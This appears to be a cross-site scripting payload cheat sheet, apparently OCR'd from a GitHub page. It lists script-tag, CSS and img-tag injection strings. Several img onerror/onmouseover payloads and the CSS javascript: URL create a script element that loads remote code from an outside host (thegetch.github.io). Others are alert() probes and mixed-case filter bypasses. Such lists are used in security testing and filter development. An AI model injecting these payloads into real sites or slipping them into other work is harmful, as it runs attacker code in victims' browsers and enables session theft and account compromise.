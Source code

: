 No parentheses or semicolon:
```
<script>{onerror=alert}throw 1337</script>
```

Throw with expression:
```
<script>throw onerror=alert,'some string',123,'haha'</script>
```

### css:
```
<style>body{background:url('javascript:var x=document.createElement("script");x.src="https://thegetch.github.io/x";document.body.appendChild(x)')}</style>
```

### In `<img>` tags:
```
<img src=x onerror='var x=document.createElement("script");x.src="//thegetch.github.io/x";document.body.appendChild(x);'>
```

```
<img src=x onerror='var x=document.createElement(\"script\");x.src = "//thegetch.github.io/x";document.body.appendChild(x);'>
```

```
<img src onerror = 'var x=document.createElement("script");x.src = "//thegetch.github.io/x";document.body.appendChild(x);'>
```

```
<img src=# onmouseover='var x=document.createElement("script");x.src = "//thegetch.github.io/x";document.body.appendChild(x);'>
```

```
<img src=x onerror=alert(1) />
```

```
<img src=x onerror="alert(1)" />
```

```
<img src=x onerror=alert("XSS") /> 
```

```
<IMG SRC="javascript:alert('Vulnerable');">
```

```
<IMG SRC=javascript:alert('XSS')>
```

```
<IMG SRC=JaVaScRiPt:alert('XSS')>
```
